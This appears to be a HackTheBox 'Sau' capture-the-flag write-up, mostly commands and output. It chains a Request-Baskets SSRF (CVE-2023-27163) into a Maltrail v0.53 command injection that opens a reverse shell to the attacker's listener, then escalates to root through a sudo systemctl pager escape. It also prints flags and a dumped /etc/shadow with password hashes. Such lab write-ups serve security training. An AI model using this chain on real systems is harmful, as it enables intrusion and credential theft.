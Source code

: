 ```yaml
---
layout: post
title: HTB{Sau}
author: mr4ndr3w
tags: [write-up, hackthebox, machine, linux]
---
```

<!--cut-->

* TOC
{:toc}


### USER:

Scan [IP]:

`nmap -sC -sV -A [IP]`

```text
┌──(kali㉿kali)-[~/htb/machines/Sau]
└─$ nmap -sC -sV -A -p- -Pn 10.10.11.224
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 10:01 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 13.76% done; ETC: 10:03 (0:01:09 remaining)
Nmap scan report for 10.10.11.224
Host is up (0.052s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 17 Oct 2023 14:02:28 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 17 Oct 2023 14:02:02 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 17 Oct 2023 14:02:02 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=10/17%Time=652E93F9%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2017\x20Oct\x2
SF:02023\x2014:02:02\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2017\x20Oct\x2
SF:02023\x2014:02:02\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Tue,\x2017\x20Oct\x202023\x2014:02:28\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.61 seconds
```

Download exploit:
```text
git clone https://github.com/entr0pie/CVE-2023-27163.git               
```

SSRF:

```text
┌──(kali㉿kali)-[~/htb/machines/Sau/CVE-2023-27163]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "evgzaj" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/evgzaj now makes the server request to http://127.0.0.1:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"DFf-7qMb3ozwM6KBc11QzpaG5rIvgnILareM0XeNi_Kz"}
                                                                                               
```

It looks like some other application called as Maltrail is running on port 80. We also know that its version v0.53 is running on the server.


Download exploit:

```text
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
```




Login:

```text
┌──(kali㉿kali)-[~/htb/machines/Sau/CVE-2023-27163]
└─$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "efoywn" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/efoywn now makes the server request to http://127.0.0.1:80/login.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"r_1ptbmiY-yGYzLF4WuwD5Nja2VlmlVa6Vdj-fT-gzHb"}

```

Exploit:

``text
┌──(kali㉿kali)-[~/htb/machines/Sau/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.130 4444 http://10.10.11.224:55555/efoywn
Running exploit on http://10.10.11.224:55555/efoywn
```


```text
$ pwd
pwd
/home/puma
$ whoami
whoami
puma
$ cat user  
cat user    
cat: user: No such file or directory
$ cat user.txt
cat user.txt
b8db2c049f0f64cf523a26fa870819c0
```
### ROOT:

The next thing that we can take a look at are the commands that our user can run with sudo privileges.


```text
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

GTFOBins:

```text
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# pwd
pwd
/home/puma
# cd /root
cd /root
# cat root.txt
cat root.txt
db3b5cccb48dc4129be4ffd0a27741d9
# cat /etc/shadow
cat /etc/shadow
root:$6$4IguUssRBYl3/LvG$MfnFD1Y9saTrvw2OqA1VtqKxa7TsDt1kb2qsJw6inQ8GfmnqIrh32eqk9IMO4UR3fYG.TzbJeiFd7UOu1QlGR0:19461:0:99999:7:::
daemon:*:19367:0:99999:7:::
bin:*:19367:0:99999:7:::
sys:*:19367:0:99999:7:::
sync:*:19367:0:99999:7:::
games:*:19367:0:99999:7:::
man:*:19367:0:99999:7:::
lp:*:19367:0:99999:7:::
mail:*:19367:0:99999:7:::
news:*:19367:0:99999:7:::
uucp:*:19367:0:99999:7:::
proxy:*:19367:0:99999:7:::
www-data:*:19367:0:99999:7:::
backup:*:19367:0:99999:7:::
list:*:19367:0:99999:7:::
irc:*:19367:0:99999:7:::
gnats:*:19367:0:99999:7:::
nobody:*:19367:0:99999:7:::
systemd-network:*:19367:0:99999:7:::
systemd-resolve:*:19367:0:99999:7:::
systemd-timesync:*:19367:0:99999:7:::
messagebus:*:19367:0:99999:7:::
syslog:*:19367:0:99999:7:::
_apt:*:19367:0:99999:7:::
tss:*:19367:0:99999:7:::
uuidd:*:19367:0:99999:7:::
tcpdump:*:19367:0:99999:7:::
sshd:*:19367:0:99999:7:::
landscape:*:19367:0:99999:7:::
pollinate:*:19367:0:99999:7:::
fwupd-refresh:*:19367:0:99999:7:::
systemd-coredump:!!:19461::::::
lxd:!:19461::::::
puma:$6$eB4LwfQg7IgQC38d$SktdHbU0gQAh0.BoRY36FHreH6xR073oHdRrk6hmvar4eZTnmkfxbUxsMBsaZMRm9XHYQF9hG4l5v6fefYdic/:19461:0:99999:7:::
_laurel:!:19527::::::

```
